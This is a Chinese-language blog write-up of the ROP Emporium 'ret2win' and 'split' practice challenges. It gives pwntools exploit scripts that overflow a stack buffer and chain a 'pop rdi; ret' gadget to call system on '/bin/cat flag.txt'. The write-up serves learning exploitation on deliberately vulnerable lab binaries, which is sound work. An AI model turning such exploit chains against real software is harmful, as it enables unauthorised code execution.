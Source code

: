 ```yaml
---
title: ROP Emporium 练习记录
date: 2019-12-09 15:02:43
tags:
  - 栈漏洞
categories:
  - 二进制安全
featuredImage: 0.png
---
```


针对 ROP 学习了一下，就记录一下 64 位的做法，32 位同理。不知道为什么对这个网站特别有好感。



## ret2win

最简单的 `ret2text`，给了到 `ebp` 的偏移量，只需要找到函数 `ret2win` 的地址返回过去即可。

```python
from pwn import *

p = process('./ret2win')
elf = ELF('./ret2win')

p.recvuntil('>')

payload = 'a'*0x28 + p64(elf.symbols['ret2win'])
p.sendline(payload)

p.interactive()
```

## split

拆开了 `system` 和 `/bin/cat flag.txt`，因此找到两者地址，准备好参数后返回到 `system` 上即可。

注意在 32 位上，只需要先放 `system` 地址，随后填充 4 字节返回地址，再放 `/bin/cat flag.txt` 地址即可。而 64 位上传参需要控制 `rdi` 寄存器，因此需要 `pop rdi; ret`。

```python
from pwn import *

context(arch='amd64', os='linux', log_level='DEBUG')

p = process('./split')
elf = ELF('./split')

p.recvuntil('>')

pop_rdi_ret = 0x400883
bin_cat_flag = 0x601060

payload = flat(['a'*0x28, pop_rdi_ret, bin_cat_flag, elf.plt['system']])
p.sendline(payload)

p.interactive()
```
